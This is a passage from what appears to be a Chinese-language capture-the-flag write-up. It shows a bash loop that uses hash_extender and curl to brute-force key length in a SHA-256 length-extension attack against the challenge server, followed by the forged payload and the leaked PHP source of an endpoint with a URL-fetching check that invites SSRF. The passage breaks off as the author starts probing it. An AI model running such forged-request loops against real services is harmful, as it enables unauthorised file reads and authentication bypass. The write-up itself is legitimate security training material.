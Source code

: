 我们不能每次都手动生成 100 个有效负载并复制粘贴。所以创建了一个 bash one liner，它将自动提取有用的数据并发送给服务器，并检查 burp 中的响应。

```
for i in {20..51}; do ./hash_extender -a=':guinjutsu.php' -d='read.php' -s 184b5d255817fc0afe9316e67c8f386506a3b28b470c94f47583b76c7c0ec1e5 -f sha256 --out-data-format=html -l $i -o data | sed -n 3p| cut -d ":" -f 2 | cut -d " " -f 2 > hash; HASH=`cat hash`;DATA=`cat data`; curl -X POST 'http://3.141.159.106/read.php' -H "User-Agent: Uchiha" -d "string=$HASH%7C$DATA&submit=Sharingan" -x http://127.0.0.1:8080; done
```

*   这给出了正确的密钥长度，即 41 和我们需要的有效载荷。`string=fc979b4620daf4a9db3f5fdddfb3300469162e41daa0d60c976c336701bf7117%7Cread%2ephp%80%00%00%00%00%00%00%00%00%00%00%00%00%01%88%3aguinjutsu%2ephp`

    利用这个我们可以读出 guinjutsu.php 文件的内容。

```
Sharingan: <?php
// This endpoint is deprecated due to some problems, I heard that other clans have stolen some jutsus
function check($url){
   $par=parse_url($url);
   if (((strpos($par['scheme'],'http')!==false)and($par['host']=='uchiha.fuinjutsukeeper.tech'))and($par['port']==5000)){
       return True; }
   else{
       return False;
   }}
if (isset($_POST['submit'])){
   if ((isset($_POST['api']))and(isset($_POST['endpoint']))){
       $url=$_POST['api'].$_POST['endpoint'];
       if (check($url)){
           $opts = array(
 'http'=>array(
   'method'=>"GET",
   'follow_location'=>false,
   'header'=>"Accept-language: en\r\n" 
 )
);
$context = stream_context_create($opts);
$file = file_get_contents($url, false, $context);
echo $file; }
   }
} ?>
```

*   我们有一些 php woo000！同样，我理解代码，但不知道潜在的漏洞。所以花了一些时间。
*   首先，它检查 POST 请求数据，然后连接两个变量 **api** 和**端点**，形成一个 **url** 变量，并将其解析到 **parse_url()** 函数，该函数以数组格式返回 url 的方案、主机和端口，并对其进行验证。

`if (((strpos($par['scheme'],'http')!==false)and($par['host']=='uchiha.fuinjutsukeeper.tech'))and($par['port']==5000)`

于是我赶紧给/guinjutsu.php 端点发了一个类似这样的 POST 请求。
